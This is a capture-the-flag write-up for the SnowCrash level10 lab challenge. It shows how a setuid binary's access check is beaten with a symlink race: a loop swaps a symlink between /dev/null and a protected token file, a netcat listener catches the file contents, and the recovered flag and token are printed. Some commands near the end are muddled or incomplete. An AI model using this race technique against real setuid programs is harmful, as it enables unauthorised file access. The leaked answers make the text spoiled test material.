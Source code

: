# Level10

Now enumerate:

    level10@SnowCrash:~$ ls -al
	total 28
	drwxrwxrwx+ 1 level10 level10   140 Apr 24 23:04 .
	d--x--x--x  1 root    users     340 Aug 30  2015 ..
	-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
	-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
	-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
	-r-x------  1 level10 level10   675 Apr  3  2012 .profile
	-rw-------  1 flag10  flag10     26 Mar  5  2016 token
Let's see what we got here:

	level10@SnowCrash:~$ ./level10
	./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ cat token
	cat: token: Permission denied
	level10@SnowCrash:~$ ./level10 token 127.0.0.1
	You don't have access to token
	level10@SnowCrash:~$ strings level10
	%s file host
	sends file to host if you have access to it
	Connecting to %s:6969 ..
	Unable to connect to host %s
	.*( )*.

Alright, for this case, we are gonna use 3 terminal in ssh and create a script:

    while true
	do
		ln -fs /dev/null /tmp/crack;
		ln -fs ~/token /tmp/crack;
	done

First one will listen on 6969,

    nc -lk 6969
Second will send the script via level10:
`while true; do ./level10 /tmp/crack  127.0.0.1 `

and Third will run the script

    bash /tmp/crack
    flag10 : woupa2yuojeeaaed06riuj63c
    Check flag.Here is your token : feulo4b72j7edeahuete3no7c
